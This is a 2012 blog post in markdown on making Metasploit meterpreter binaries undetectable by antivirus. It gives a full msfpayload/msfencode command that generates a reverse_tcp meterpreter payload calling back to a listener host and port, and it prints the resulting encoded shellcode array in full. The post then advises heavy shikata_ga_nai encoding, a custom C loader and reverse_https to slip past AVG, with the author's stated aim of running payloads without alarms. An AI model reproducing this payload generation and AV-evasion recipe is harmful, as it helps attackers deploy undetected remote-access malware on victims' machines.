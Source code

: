 ```yaml
---
layout: post
title: How to Actually Make a Metasploit Binary Undetectable
date: '2012-08-11T18:21:00.001-06:00'
author: JM
tags:
- shellcode
- encoding
- undetectable
- av bypass
- anti-virus bypass
- meterpreter
- metasploit
modified_time: '2012-12-03T01:52:15.208-07:00'
blogger_id: tag:blogger.com,1999:blog-4063990595241430327.post-8740081796607657743
blogger_orig_url: http://www.pwnage.io/2012/08/how-to-really-make-metasploit-binary.html
---
```


# In the beginning...
Over the past while I have been reading the Metasploit - Penetration Tester's guide. This has consisted of a number of techniques to make a binary executable undetectable to anti-virus engines using a number of techniques within the Metasploit framework. Well guess what, none of them work! (Anymore, that is). Obviously this is not the author's faults, they even made note of it in the book that with publication of these techniques most anti-virus engines would indeed take these into consideration and make all of them detectable. Through my testing, I found that pretty much all of these techniques were/are indeed detected by most major anti-virus programs.

# Looking for Answers
So like any other person, I want to get these things undetectable so I can use them without setting any alarms off, and having AVs ruin my day. Oh, and just to note, at the time of this blog post my findings were that these were undetectable, but knowing AV companies, this probably won't last long. So you guys will probably have to do some work after this. Oh, and this is not a tutorial on setting up the binaries exactly with Metasploit, go read that on [Metasploit Unleashed](http://www.offensive-security.com/metasploit-unleashed/Main_Page) I just wanted to provide this to the public to document my findings.
So, starting off I went looking, basically everything was saying the exact same things as Metasploit Unleashed and the Metasploit - Penetration Tester's guide. I found a few good resources like [here](http://www.whenisfive.com/2011/12/12/creating-custom-meterpreter-exe-templates-to-bypass-windows-av/) and [here](http://www.blogger.com/blogger.g?blogID=4063990595241430327) but for the most part I found that the things that were causing AV detection is the deployment method that Metasploit uses when executing the payload at runtime. This is fairly intuitive of the AV companies since otherwise the payload would not be detectable since it is being encoded dynamically with something like shikata_ga_nai which is a polymorphic encoder provided by msfencode.

# So what now?
Well, how would you approach it? Give it a thought before continuing to the next paragraph...

It may be fairly obvious or may not be (I tend to hate it when texts tell me things are trivial or are obvious when they are not to me, it tends to makes me feel dumb. I will never try to bring anyone down with my writings.) Basically a strategy can be taken to write your own deployment method. Msfpayload and msfencode provide a way of outputting raw shellcode like so: 

`root@bt~# msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=7777 R | ./msfencode -c 1 -e x86/shikata_ga_nai -t c -o payload.c`

So what this will do is output some c code, just an unsigned char array of the meterpreter shellcode:

```
unsigned char buf[] = 
"\xbf\x41\xe8\xf8\x00\xda\xcb\xd9\x74\x24\xf4\x5a\x33\xc9\xb1" "\x49\x31\x7a\x14\x03\x7a\x14\x83\xea\xfc\xa3\x1d\x04\xe8\xaa" "\xde\xf5\xe9\xcc\x57\x10\xd8\xde\x0c\x50\x49\xee\x47\x34\x62" "\x85\x0a\xad\xf1\xeb\x82\xc2\xb2\x41\xf5\xed\x43\x64\x39\xa1" "\x80\xe7\xc5\xb8\xd4\xc7\xf4\x72\x29\x06\x30\x6e\xc2\x5a\xe9" "\xe4\x71\x4a\x9e\xb9\x49\x6b\x70\xb6\xf2\x13\xf5\x09\x86\xa9" "\xf4\x59\x37\xa6\xbf\x41\x33\xe0\x1f\x73\x90\xf3\x5c\x3a\x9d" "\xc7\x17\xbd\x77\x16\xd7\x8f\xb7\xf4\xe6\x3f\x3a\x05\x2e\x87" "\xa5\x70\x44\xfb\x58\x82\x9f\x81\x86\x07\x02\x21\x4c\xbf\xe6" "\xd3\x81\x59\x6c\xdf\x6e\x2e\x2a\xfc\x71\xe3\x40\xf8\xfa\x02" "\x87\x88\xb9\x20\x03\xd0\x1a\x49\x12\xbc\xcd\x76\x44\x18\xb1" "\xd2\x0e\x8b\xa6\x64\x4d\xc4\x0b\x5a\x6e\x14\x04\xed\x1d\x26" "\x8b\x45\x8a\x0a\x44\x43\x4d\x6c\x7f\x33\xc1\x93\x80\x43\xcb" "\x57\xd4\x13\x63\x71\x55\xf8\x73\x7e\x80\xae\x23\xd0\x7b\x0e" "\x94\x90\x2b\xe6\xfe\x1e\x13\x16\x01\xf5\x3c\xbc\xfb\x9e\x82" "\xe8\x05\x5a\x6b\xea\x05\x7a\x0a\x63\xe3\xe8\xdc\x25\xbb\x84" "\x45\x6c\x37\x34\x89\xbb\x3d\x76\x01\x4f\xc1\x39\xe2\x3a\xd1" "\xae\x02\x71\x8b\x79\x1c\xac\xa6\x85\x88\x4a\x61\xd1\x24\x50" "\x54\x15\xeb\xab\xb3\x2d\x22\x39\x7c\x5a\x4b\xad\x7c\x9a\x1d" "\xa7\x7c\xf2\xf9\x93\x2e\xe7\x05\x0e\x43\xb4\x93\xb0\x32\x68" "\x33\xd8\xb8\x57\x73\x47\x42\xb2\x85\xb4\x95\xfb\x03\xcc\x93" 
"\xef\xcf";
```

Now, an important segment is the number of iterations. I used a high number of iterations of shikata_ga_nai when using the reverse_tcp payload which resulted in the shellcode itself being undetectable, however, a large payload size. (Isn't too big of a deal since this is a standalone binary). This can be adjusted with the -c flag. Don't overdue it though! I found that if I went as high as 25 (yes, at that point I was getting impatient) it will break the binary (well, I wasn't receiving a connection back). The encoding in the first place is important in order to have the payload undetectable, but now since we just have raw shellcode output we need to execute it somehow right? I'll leave the next step up to you. Simply find a way to execute that shellcode output and you will have a UD binary. Make it unique, maybe even add code around it to make it more complex. You'll want to find a way to execute the payload in c (or another language, in that case you should output a different format with the -t flag) and compile the program, then boom, done!

# UD is the Way to Be
With the method I previously stated I got the following result (with the reverse_tcp meterpreter): 

![](https://p.twimg.com/At9OxFLCMAEaAy9.png:large)

At the time I was trying to bypass AVG, which was one of the 4 detected. I found that when I used windows/meterpreter/reverse_https I was able to bypass AVG, which presumably means, that it was undetectable to everything else. At this stage I believe that this is due to the payload being staged but I am not completely sure.

Anyways, that's it for now. Just throw a message in the comments if you have any further questions. I won't spoon feed you the last step because it should be unique, and it will help you learn :

Update:
Here's a straight forward approach that I found. I haven't done it myself but looks fairly promising:
[http://www.exploit-db.com/wp-content/themes/exploit/docs/20420.pdf](http://www.exploit-db.com/wp-content/themes/exploit/docs/20420.pdf)

~Josh
